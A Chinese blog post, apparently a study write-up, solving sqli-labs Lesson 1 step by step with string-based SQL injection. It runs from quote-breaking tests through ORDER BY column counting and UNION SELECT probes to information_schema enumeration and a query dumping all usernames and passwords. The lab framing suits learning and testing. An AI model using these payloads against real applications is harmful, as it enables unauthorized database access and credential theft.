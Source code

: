 ```yaml
---
layout: post
title: sqli-labs Lesson-1 字符型注入
subtitle: 
date: 2020-01-03
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface



这篇文章是我正式学习 sql 注入的第一篇文章，下载了 sqli-labs 靶机作为渗透环境，里面的题目很多，有几十题的 sql 注入，跟着网上的 wp 一起做了一题，然后还是学到挺多东西的，这里拿第一关来记录一下



## sql 注入概念



通俗点说，就是要获取数据库里面所有的信息，包括这张表的字段个数，字段名分别是什么，在哪个数据库中，以及所有的记录，一般来说，黑客就会想知道有关管理员表的一些信息，作为学习，我就先将 sql 注入的一般的步骤写下来



1. 判断是否可注入以及注入点的类型（字符型，数字型，布尔型）
2. 猜解表中的字段数（一般利用 order by column_id）
3. 确定显示的字段顺序（一般用 union 联合查询）
4. 获取当前的数据库（通过 MySQL 内建的 database() 函数）
5. 获取表中的字段名
6. 下载数据



## 开始做题



### 判断注入点



下面就按照上面这几个步骤来对第一关进行 sql 注入吧，害，不过题目都说了是基于报错的字符型单引号注入了，有了先入为主的思想，就直接输入一个 `'` 进去了，然后看到报错信息，真的是用单引号包着的，所以猜测 sql 查询语句为

```sql
select xx from table where id='$id' limit 0, 1;
```

![error](https://i.loli.net/2020/01/04/5pvtiwQ4lFEebL8.png)



然后进一步查看是否存在 sql 注入，由于已知是字符型的注入了，所以我们分别输入 `'or'1'='1` 和 `'or'1'='2` 来看看返回的是不是相同的界面，如果不同的话就说明有 sql 注入漏洞

![1578127454967.png](https://i.loli.net/2020/01/04/nrVNCgmHS9qpAhv.png)

![1578127478997.png](https://i.loli.net/2020/01/04/tlqJf8zY6VcjPuC.png)



### 爆字段个数



可以看到返回的不同的数据，所以存在 sql 注入，下面我们就开始注入过程。首先确定一下这张表有几个字段，用 `order by column_id` 一个一个试，然后把后面的 sql 语句给注释掉来截断

![1578127659994.png](https://i.loli.net/2020/01/04/DT54rxqRdLPINoU.png)

试到 4 的时候报错了，所以确定了这张表只有 3 个字段

![1578127762664.png](https://i.loli.net/2020/01/04/EMKJSneVmkgs9RW.png)



### 爆显示顺序



紧接着，第二步，确定显示出来的是哪几个字段，这里用 union 查询，并且将前面一个查询的结果给屏蔽，因为这个 sql 语句只能返回一条记录，如果前面输出了的话那么后面查询得到的数据就不会被显示出来，所以这里我们可以用下面这句来构造 payload

```sql
1' and 1=2 union select 1, 2 --+ 
```

但是报错了，说 union 查询的前后两条记录的字段数不相等，那么猜想真实的 sql 语句一定是 `select *` ，返回的是 3 个字段的记录

![1578129308538.png](https://i.loli.net/2020/01/04/G9Ry6KH7uQaojew.png)



那我们就再构造一个 payload

```sql
1' and 1=2 union select 1, 2, 3 --+ 
```

![select-1-2-3](https://i.loli.net/2020/01/04/XFDzSr3ZfPdlC2J.png)



### 爆数据库



这次显示的是 2， 3，所以 login_name 这个字段的顺序是 2，password 是 3，那么 id 肯定是 1 了，已经知道这些了，接下去就看下这个数据库叫什么名字，要先得到数据库的消息就可以用 mysql 内建的数据库查出表的名字，用下面这条 payload 获取数据库的名字

```sql
1' and 1=2 union select 1, database(), 3 --+ 
```



![1578129576658.png](https://i.loli.net/2020/01/04/qgJoxCHXfUnZjmM.png)



### 爆表名



ok，这张表所在的数据库的名字是 security，知道数据库的名字之后我们还得知道数据库是什么系统的，以及版本号，顺带也可以获取系统是 win 还是 linux ，虽然这里肯定是 MySQL 数据库，但是实战中不一定总是 MySQL ，所以要先查询一下，下面这些函数在我之前写的 [sql 基本语句](https://szukevin.site/2019/11/13/%E4%B8%80%E4%BA%9B%E5%B8%B8%E7%94%A8%E7%9A%84SQL%E8%AF%AD%E5%8F%A5/)中都找得到



可以像这样一个一个查询，查完之后换一个函数继续查，但是效率不高

```sql
1' and 1=2 union select 1, @@datadir, version() --+ 
...
1' and 1=2 union select 1, @@version_compile_os, user() --+ 
```



用 `concat_ws(separator,str1,str2,...)` 函数更加方便，这个函数的功能是将多个字符串拼接在一起，因此我们可以用这个函数一次性查询好多东西

```sql
1' and 1=2 union select 1, 2, concat_ws(',', @@datadir, version(), @@version_compile_os, user()) --+ 
```



![1578139631092.png](https://i.loli.net/2020/01/04/7w3hYL9UdajGiHS.png)



得知数据库是在 debian 系统上的 MariaDB（其实跟 MySQL 是一样的东西），接下来我们用 MySQL 中的 information_schema 数据库爆出表名

```sql
1' and 1=2 union select 1, 2, table_name from information_schema.tables where table_schema='security' --+ 
```



![1578130520986.png](https://i.loli.net/2020/01/04/jhYCoxwXWJQTI9r.png)



可以看到，只显示出了一个表名，这是因为它只取了第一行的记录，其实是有多行的，我们要用 `group_concat` 这个函数将多行记录放在一行显示

```sql
1' and 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+ 
```

![1578130656386.png](https://i.loli.net/2020/01/04/6Bl2AuzxXMOmSo1.png)



### 爆字段名



然后看到了这个数据库里面有 4 张表，猜想这张表是 users ，然后爆出字段名，同样也是用到 information_schema 这个数据库，所以说这个数据库很重要

```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+ 
```



![1578139721794.png](https://i.loli.net/2020/01/04/4whBe617vqQKRnO.png)



但是这里出现了好多字段，之前不是确认过了这张表只有三个字段的吗，原因就是我的环境中还有其他的数据库中的表也叫做 users ，为了避免这种情况，就要再筛选一下了



```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+ 
```

![1578138434738.png](https://i.loli.net/2020/01/04/5ICxjqW9cNifXg2.png)



### 爆所有数据



这下字段名就出来了，一个是 id ，一个是 username ，一个是 password ，接下去就可以根据字段名将数据库所有的用户信息都给爆出来了



```sql
1' and 1=2 union select 1, group_concat(username), group_concat(password) from users --+ 
```



![all-data](https://i.loli.net/2020/01/04/xfj81R69tDvqKVQ.png)



到这里就完成了一次注入，还挺有趣的，总之注入的时候就要想想后台的 sql 可能是怎么写的，然后去猜测信息，接着用一些手段来获取自己想得到的信息



## reference



https://blog.csdn.net/qq_43531669/article/details/90812561

